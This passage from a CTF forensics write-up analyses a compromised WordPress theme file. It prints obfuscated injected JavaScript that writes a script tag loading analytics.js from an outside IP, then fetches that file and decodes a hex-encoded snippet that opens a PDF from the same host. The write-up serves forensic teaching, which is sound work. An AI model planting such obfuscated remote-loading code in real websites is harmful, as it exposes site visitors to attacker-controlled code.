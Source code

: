 ```sh
<     f += c[i];
< }
< i = k + "anal";
< document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\'>\</" + m + "\>");

```
Aha!!! So what is being written?

In JavaScript, the function ```document.write()``` writes HTML expressions or JavaScript code to a document. However, we can debug it in the console if we want, changing it to ```console.log()``` (and changing any ```document``` word to ```console```).

To run JavaScript in the console, you need to install [Node].

So we run and we get a URL:


```sh
$ node html5.js
<script src='http://128.238.66.100/analytics.js'></script>
```
----

## Analyzing the Second JavaScript Exploit

Awesome, we see a script exploit! Let's get it!

```sh
$  wget http://128.238.66.100/analytics.js
--2014-09-25 19:17:19--  http://128.238.66.100/analytics.js
Connecting to 128.238.66.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16072 (16K) [application/javascript]
Saving to: ‘analytics.js’

100%[===============================================================================>] 16,072      --.-K/s   in 0.008s

2014-09-25 19:17:19 (2.02 MB/s) - ‘analytics.js’ saved [16072/16072]
```


The file turns out to be large, and *grep* *flag* or *key* doesn't show any hit. No IP addresses or URL neither.

OK, let's take a closer look. We open the file in a text editor and we find a weird hex-encoded variable that is completely unconnected from the rest:
```
var _0x91fe = ["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E"];
window[_0x91fe[2]](_0x91fe[0], _0x91fe[1]);
```

We decode it using Python or a [online hex-decode] and we get another file:
```python
>>> print("\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E")
('http://128.238.66.100/announcement.pdf', '_self', 'open')
```


[CSAW CTF 2014 Forensic -Obscurity]: http://bt3gl.github.io/forensics-200-obscurity.html
[online hex-decode]: http://ddecode.com/hexdecoder/
[which we can just google]: http://phpxref.ftwr.co.uk/wordpress/wp-content/themes/twentythirteen/js/html5.js.source.html
[Tailing]: http://en.wikipedia.org/wiki/Tail_(Unix)
[phpMyAdmin]: http://www.phpmyadmin.net/home_page/index.php
[qpdf]: http://qpdf.sourceforge.net/
[l3afpad]: http://tarot.freeshell.org/leafpad/
[diff]: http://linux.die.net/man/1/diff
[MySQL database dump file]: http://dev.mysql.com/doc/refman/5.1/en/mysqldump.html
[Linux File System]: http://www.tldp.org/LDP/intro-linux/html/sect_03_01.html
[LAMP server]: https://coderwall.com/p/syyk0g?i=5&p=1&q=author%3Abt3gl&t%5B%5D=bt3gl
[CSAW2014-FluffyNoMore-v0.1.tar.bz2]: https://ctf.isis.poly.edu/static/uploads/649bdf6804782af35cb9086512ca5e0d/CSAW2014-FluffyNoMore-v0.1.tar.bz2
[bzip2]: http://en.wikipedia.org/wiki/Bzip2
[cute website]: http://ww17.blog.eyeheartfluffybunnies.com/?fp=Tnxj5vWdcChO2G66EhCHHqSAdskqgQmZEbVQIh1DCmrgCyQjbeNsPhkvCpIUcP19mwOmcCS1hIeFb9Aj3%2FP4fw%3D%3D&prvtof=RyfmkPY5YuWnUulUghSjPRX510XSb9C0HJ2xsUn%2Fd3Q%3D&poru=jcHIwHNMXYtWvhsucEK%2BtSMzUepfq46Tam%2BwGZBSFMjZiV2p3eqdw8zpPiLr76ixCoirz%2FR955vowRxEMBO%2FoQ%3D%3D&cifr=1&%22
[blog]: http://ww17.blog.eyeheartfluffybunnies.com
[hashcat]: http://hashcat.net/hashcat/
[file]: http://en.wikipedia.org/wiki/File_(command)
[Kali]: http://www.kali.org/
[Node]: http://nodejs.org/